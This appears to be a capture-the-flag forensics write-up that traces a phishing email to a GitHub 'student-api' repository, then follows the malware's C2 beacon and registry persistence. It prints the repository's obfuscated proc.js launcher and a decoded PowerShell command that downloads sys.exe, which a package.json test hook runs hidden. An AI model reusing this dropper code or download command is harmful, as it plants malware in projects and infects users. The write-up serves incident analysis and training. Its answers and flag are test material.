<div markdown=1 class="blurb" >

# Summary
Disk image forensic that contains malicious executable that is distributed via email and a C2 beacon connection.

# Writeup
Given a .ad1 file which is a disk image forensic acquisition and a bunch of questions to be answered.

#### What is the SHA256 hash of the disk image provided?
Perform a calculation SHA256 checksum of disk image using HashMyFile `122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2`


#### Identify the OS build number of the victim’s system?
Load the disk image using FTK imager and it seems this challenge dump all of the `C:\` drive.


After that to dump the OS build number without CLI is using SOFTWARE registry, using Registry Explorer from [Eric Zimmerman Tools Collection](https://ericzimmerman.github.io/#!index.md). As we can see in image below the OS build number lies on `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion` which is `19045`.


#### What is the ip of the victim's machine?
To view the IP address of victim's machine, we can dump the SYSTEM registry on `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{GUID}` on `DhcpIPAddress`.


#### What is the name of the email application used by the victim?
For email application we can see on the `C:\program files` to list all of the program that has been installed on the victim's PC. It seems he use `Mozilla Thunderbird` as the email client application.


#### What is the email of the victim?
Mozilla Thunderbird store all of the data inside user's app data `C:\Users\ammar\AppData\Roaming\thunderbird\profiles\xxx`.


#### What is the email of the attacker?
For attacker's email, we can inspect the ammar mail inbox from `INBOX` file. By searching naively with "from" keyword as we can see `masmoudim522@gmail.com` sent an email to ammar.


#### What is the URL that the attacker used to deliver the malware to the victim?
In one of the message, masmoudim sent an email with a GitHub link `https://github.com/lmdr7977/student-api`. We need to inspect the GitHub repository.


This is the repository which contains several .js files with a potentially suspicious `proc.js` file. 


This is the content of `proc.js` with obfuscated string constants and malicious code to run command with `child_process` library.
```javascript
(function(){
    const _0x4f3c = [
      'cGhsc2VjcGM=',
      'Y2hpbGRfcHJvY2Vzcw==',
      'Y29uc29sZQ==',
      'YXBwZGF0YQ==',
      'c3lzLmV4ZQ==',
      'ZXhlYw==',
      'bG9n',
      'ZXJyb3I=',
      'U3RhcnQgd2l0aCA='
    ];
  
    function _decode(b64) {
      return Buffer.from(b64, 'base64').toString('utf-8');
    }
  
    const _require = require;
    const child = _require(_decode(_0x4f3c[1]));  // 'child_process'
    const path = _require('path');
    const sysenv = process.env[_decode(_0x4f3c[3])]; // 'appdata'
    const exePath = path.join(sysenv, _decode(_0x4f3c[4])); // 'sys.exe'
  
    const run = child[_decode(_0x4f3c[5])]; // 'exec'
  
    run(`start "" "${exePath}"`, (err) => {
      if (err) {
        _require(_decode(_0x4f3c[2]))[_decode(_0x4f3c[7])](err); // console.error
      } else {
        _require(_decode(_0x4f3c[2]))[_decode(_0x4f3c[6])](_decode(_0x4f3c[8]) + exePath); // console.log
      }
    });
  })();
```

Upon inspecting the package.json file it contains a malicous javascript command configuration `test` that will run powershell command with a hidden / in background process and the payload is encoded with base64. 


After decoding the base64, we can get the powershell original command that will perform file download for malicious executable `sys.exe`

```powershell
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
Invoke-WebRequest $u -OutFile $o
```

#### What is the SHA256 hash of the malware file?
Perform another SHA256 checksum of the `sys.exe` the result is `be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d`  

#### What is the IP address of the C2 server that the malware communicates with?
We can directly upload the malicious executable to VirusTotal ~*I'm too lazy to perform reverse engineering 😆*~. By the way the malicious file was made with Go. As we can see, the file is a real malware and it's being detected by 10 anti-virus platforms


To check the C2 server IP address we can visit the behaviour tab on VirusTotal 


#### What port does the malware use to communicate with its Command & Control (C2) server?
for the port is the same as image above (5000)

#### What is the url if the first Request made by the malware to the c2 server?
The first request for the C2 server maybe it's a beacon request to check the connection between the server and the application is alive. `http://40.113.161.85:5000/helppppiscofebabe23`


#### The malware created a file to identify itself. What is the content of that file?
Malware created the identity, check on the `files written` tab, visit `C:\Users\Public\Documents\id.txt` and the result is `3649ba90-266f-48e1-960c-b908e1f28aef`




#### Which registry key did the malware modify or add to maintain persistence?
The malware created registry key to maintain persistence in case the user is aware of the presence. On the `Registry Action` there is a  `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp`



#### What is the content of this registry?
Malware is writing the executable into the registry that may be executed to maintaining access to the C2 server.



#### The malware uses a secret token to communicate with the C2 server. What is the value of this key?
The simple way is to perform string search on the malicious executable with "secret" keyword and we got the secret key on the Go compiler `-ldflags`.


#### flag: Securinets{de2eef165b401a2d89e7df0f5522ab4f}